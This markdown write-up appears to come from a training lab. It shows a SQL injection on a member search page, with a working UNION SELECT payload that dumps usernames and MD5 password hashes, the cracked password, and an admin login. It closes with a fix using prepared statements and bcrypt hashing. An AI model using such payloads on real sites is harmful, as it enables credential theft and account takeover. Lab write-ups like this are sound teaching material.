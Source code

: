 # Sql Injection - Hash Function

Using an SQL injection we are able to list users credentials (`username`/`password`), and since password are hashed with MD5, we can reverse them.

## How-To

1. Go to `/?page=member`
1. Write in the search input

	```sql
	-- List Table Content
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), username, password) FROM Member_Brute_Force.db_default

	-- First name: one, Surname : me
	-- First name: 1, Surname : root/3bf1114a986ba87ed28fc1b5884fc2f8
	-- First name: 1, Surname : admin/3bf1114a986ba87ed28fc1b5884fc2f8
	```

1. Reverse password

	```
	3bf1114a986ba87ed28fc1b5884fc2f8 = shadow
	```

1. Go to `?page=signin` and login

	- Username : admin
	- Password : shadow

## Fix

- Use a robust hash function to store password like `password_hash` in `PHP`.

	```php
	// Register
	$stmt = $db->prepare("INSERT INTO users (username, password) VALUES (:username, :password)");
	$stmt->bindParam(':username', $username, PDO::PARAM_STR);
	$stmt->bindParam(':password', password_hash($password, PASSWORD_BCRYPT), PDO::PARAM_STR);
	$stmt->execute();
	$stmt->closeCursor();

	// Login
	$stmt = $db->prepare("SELECT username, password FROM users WHERE username=:username");
	$stmt->bindParam(':username', $username, PDO::PARAM_STR);
	$stmt->execute();
	$user = $stmt->fetch();
	$stmt->closeCursor();

	if ( $user && password_verify($password, $user['password']) )
	{
		// Good
	}
	```

## Details

- Do NOT use MD5 for anything related to security

## Resources

- Decrypt : [MD5 Decrypt](https://md5decrypt.net/)
- PHP : [password_hash](https://www.php.net/manual/en/function.password-hash.php)
- PHP : [password_verify](https://www.php.net/manual/en/function.password-verify.php)
